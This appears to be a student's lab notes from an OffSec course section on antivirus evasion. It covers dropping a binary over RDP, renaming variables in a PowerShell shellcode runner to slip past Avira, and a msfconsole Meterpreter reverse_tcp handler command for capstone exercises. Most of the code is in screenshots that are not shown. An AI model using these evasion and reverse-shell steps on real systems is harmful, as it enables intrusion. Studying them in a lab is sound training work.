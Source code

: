 ### 14.3.2 Walkthrough

First you turn on the Avira AV app

next  I used this command to open up an RDP and map a drive to drop the binary.exe document in the desktop so the AV can see it
 xfreerdp /v:192.168.215.61 /u:offsec /p:lab /drive:C:\,/home/hollacosta/Downloads            IMPORTANT CMD TO MAP A DRIVE WHILE REMOTING INTO A WINDOWS  COMPUTER

Once dropped, the virus scanner detected it.
Next, created a bypass.ps1 
![[Pasted image 20231017192121.png]]

replaced the "Win32" with "iWin32"
replaced the "sc" with "var1"
replaced the "winFunc" with "var2"
![[Pasted image 20231017192241.png]]
next, dropped the file in Downloads and moved it to the desktop
Opened a Shell prompt and try to run it with no results. Changed the execution policy to be able to run the script
![[Pasted image 20231017192331.png]]
once run and having the nc open, you should be connected!

### 14.3.3 Capstone Exercise #1

![[Pasted image 20231017202017.png]]
![[Pasted image 20231018174525.png]]

![[Pasted image 20231017202440.png]]
Download the 32 .exe file
![[Pasted image 20231018175542.png]]

![[Pasted image 20231018180301.png]]
for this payload, we use the following msfvenom

$ msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.181;set LPORT 443;run;" ^afd7cb

### 14.3.3 Q3 CAPSTONE EXERCISE #2
to use it, make sure you change the directory
to see the payload list
![[Pasted image 20231018185318.png]]

![[Pasted image 20231018185426.png]]
after creating the bat file, you can use it to download it onto the target while you have a meterpreter rev_tcp listener
use msfvenom interpreter
![[Pasted image 20231018190737.png]]
same principles as the previous capstone

